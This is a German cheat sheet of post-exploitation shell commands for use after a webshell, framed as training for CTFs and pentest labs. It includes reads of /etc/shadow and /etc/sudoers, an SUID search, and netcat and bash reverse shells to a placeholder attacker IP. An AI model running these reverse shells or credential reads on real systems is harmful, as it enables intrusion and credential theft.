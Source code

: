 # 🧪 cmdExamplesFromShell.md

---

## Inhaltsverzeichnis
- [Einleitung](#einleitung)
- [Informationsgewinnung](#informationsgewinnung)
- [Dateisystem & Verzeichnisse](#dateisystem--verzeichnisse)
- [Netzwerk-Analyse](#netzwerk-analyse)
- [Systemdienste & Prozesse](#systemdienste--prozesse)
- [Privilege Escalation vorbereiten](#privilege-escalation-vorbereiten)
- [Kommunikation (Reverse Shells)](#kommunikation-reverse-shells)
- [Dateisystem manipulieren](#dateisystem--verzeichnisse)
- [Befehle debuggen (z. B. bei PHP-Webshell)](#befehle-debuggen-beispiel-in-php-webshell)
- [Empfehlung für defensives Logging (Blue Team)](#empfehlung-für-defensives-logging-blue-team)
- [Siehe auch](#siehe-auch)
- [Haftungsausschluss](#haftungsausschluss)

---

## Einleitung

Diese Datei enthält nützliche Shell-Befehle, die häufig **nach erfolgreichem Zugriff über eine Webshell** verwendet werden – z. B. durch eine PHP Remote Code Execution (RCE), Datei-Upload oder Command Injection.  
Sie eignet sich hervorragend für **CTFs**, **Penetration Testing Labs** oder als Nachschlagewerk für den **Post-Exploitation-Prozess**.

> ⚠️ **Hinweis:**  
> Die Befehle dienen ausschließlich **Schulungszwecken** oder autorisierten Tests in isolierten, legalen Umgebungen.  
> Jeder unautorisierte Zugriff auf Drittsysteme ist illegal und strafbar.

---

## Informationsgewinnung

```bash
whoami                  # Aktueller Benutzer
id                      # UID, GID, Gruppen
pwd                     # Aktuelles Verzeichnis
hostname                # Hostname des Systems
uname -a                # Vollständige Systeminformationen
uname -r                # Kernel-Version
```

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Dateisystem & Verzeichnisse

```bash
ls -la                  # Aktuellen Verzeichnisinhalt anzeigen
ls -la /root            # Root-Verzeichnis anzeigen (falls zugänglich)
ls -la /home            # Benutzerverzeichnisse anzeigen
ls -la /var/www         # Webserver-Verzeichnis
cat /etc/passwd         # Benutzerliste
cat /etc/shadow         # Passworthashes (nur root)
cat /etc/group          # Gruppeninformationen
cat /etc/sudoers        # Sudo-Rechte überprüfen
```

---

## Netzwerk-Analyse
```bash
ifconfig                # Netzwerkinterfaces (älter)
ip a                    # Netzwerkinterfaces (neuer)
netstat -an             # Offene Ports
netstat -tulpn          # Dienste mit Ports und PIDs
```

---

## Systemdienste & Prozesse
```bash
ps aux                  # Laufende Prozesse anzeigen
top                     # Prozesse live
who -a                  # Aktive Benutzer
w                       # Aktive Sessions
```

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Privilege Escalation vorbereiten
```bash
find / -type f -perm -4000 2>/dev/null   # SUID-Dateien finden
sudo -l                                 # Welche Befehle kann ich als root ausführen?
which nc                                # Netcat vorhanden?
which python                            # Python vorhanden?
which perl                              # Perl vorhanden?
```

---

## Kommunikation (Reverse Shells)
### Netcat Reverse Shell (Linux)
```bash
nc <attacker-ip> 4444 -e /bin/bash
```

### Bash Reverse Shell
```bash
bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1
```
> ⚠️ Hörer vorbereiten mit:
```bash 
nc -lvnp 4444
```

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Dateisystem manipulieren

```bash
touch test.txt                # Leere Datei anlegen
echo "test" > test.txt        # Text in Datei schreiben
cat test.txt                  # Datei anzeigen
rm test.txt                   # Datei löschen
```

---

## Befehle debuggen (Beispiel in PHP-Webshell)
Wenn ein Befehl nicht direkt ausgeführt wird (z. B. bei exec()), kann es helfen, einfache Varianten zu testen:

```bash
whoami;id;uname -a
```

**Oder:**

```bash
echo START && whoami && echo END
```

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Empfehlung für defensives Logging (Blue Team)

```bash
last                       # Letzte Logins
dmesg                      # Kernel-Logs
journalctl -xe             # Systemd-Logs (sofern aktiv)
tail -f /var/log/auth.log  # SSH/Authentifizierungsversuche
```

---

## Siehe auch:

- [php_web_shell_bypass_tricks.md](03-web-security/phpWebShell/php_web_shell_bypass_tricks.md)
- [post_exploitation_tools.md](04-os-enumeration/post_exploitation_tools.md)
- [php_web_shell_usage.md](03-web-security/phpWebShell/php_web_whell_usage.md)

---

## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---
